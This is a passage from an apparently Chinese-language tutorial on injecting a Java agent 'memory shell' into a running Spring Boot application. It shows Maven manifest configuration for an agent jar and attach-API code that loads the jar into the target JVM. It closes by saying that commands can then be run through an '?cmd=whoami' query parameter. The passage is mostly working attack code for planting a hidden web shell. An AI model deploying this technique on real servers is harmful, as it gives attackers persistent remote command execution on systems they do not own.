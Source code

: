 ```xml
                <configuration>
                    <descriptorRefs>
                        <descriptorRef>jar-with-dependencies</descriptorRef>
                    </descriptorRefs>
                    <archive>
                        <manifest>
                            <addClasspath>true</addClasspath>
                        </manifest>
                        <manifestEntries>
                            <Premain-Class>com.luc.agentmain.SpringBootAgent</Premain-Class>
                            <Agent-Class>com.luc.agentmain.SpringBootAgent</Agent-Class>
                            <Can-Redefine-Classes>true</Can-Redefine-Classes>
                            <Can-Retransform-Classes>true</Can-Retransform-Classes>
                        </manifestEntries>
                    </archive>
                </configuration>
            </plugin>
        </plugins>
    </build>
</project>
```
编译之后可通过如下代码，将上面编译的jar包注入到springboot应用
```java
package com.luc.AgentMainDemo;

import com.sun.tools.attach.*;

import java.io.IOException;
import java.util.List;

public class SpringBoot_Agent {
    public static void main(String[] args) throws Exception {
        String path = "C:\\Users\\Luc\\Desktop\\JavaAgent\\agentmain\\target\\agentmain-1.0-SNAPSHOT-jar-with-dependencies.jar";
        List<VirtualMachineDescriptor> list = VirtualMachine.list();
        for(VirtualMachineDescriptor v:list){
            if(v.displayName().contains("SpringbootApplication")){
                VirtualMachine vm = VirtualMachine.attach(v.id());
                vm.loadAgent(path);
                vm.detach();
            }
        }


    }
}
```
注:在注入前应先访问一下http://127.0.0.1:8080/index，否则找不到ApplicationFilterChain类。

注入成功后可通过访问http://127.0.0.1:8080/index?cmd=whoami来执行命令。